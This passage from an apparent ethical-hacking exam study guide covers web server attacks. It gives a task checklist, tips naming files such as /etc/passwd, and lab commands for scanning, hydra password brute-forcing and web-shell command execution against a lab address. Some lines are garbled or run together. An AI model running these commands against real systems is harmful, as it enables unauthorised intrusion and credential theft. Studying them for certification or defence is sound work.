   

1. Identify web server version and technologies

2. Check for anonymous FTP access

3. Perform directory traversal test

4. Exploit at least one vulnerability

5. Document all findings in report

  

### Pro Tips:

  

- **Always check**: `/robots.txt` for hidden directories

- **Critical files**: `/etc/passwd`, `web.config`, `.htaccess`

- **Exam trick**: Use `-Tuning xb` in Nikto for quick results

- **Must-know ports**: 80 (HTTP), 443 (HTTPS), 21 (FTP), 22 (SSH)

  
  

### Real-World Exam Lab

```

# Task: Compromise vulnerable web server

1. whatweb http://10.10.10.10

2. nikto -h http://10.10.10.10

3. hydra -L users.txt -P passwords.txt http-get://10.10.10.10/admin

4. curl http://10.10.10.10/vulnerable.php?cmd=id

```

# Run these until automatic:

whatweb http://10.10.10.10

nikto -h http://10.10.10.10 -Tuning xbhydra -L users.txt -P passwords.txt ftp://10.10.10.10

  
  
**[Back to top](#top)**

___

## Module 14: Hacking Web Applications

## Module 14: Hacking Web Applications
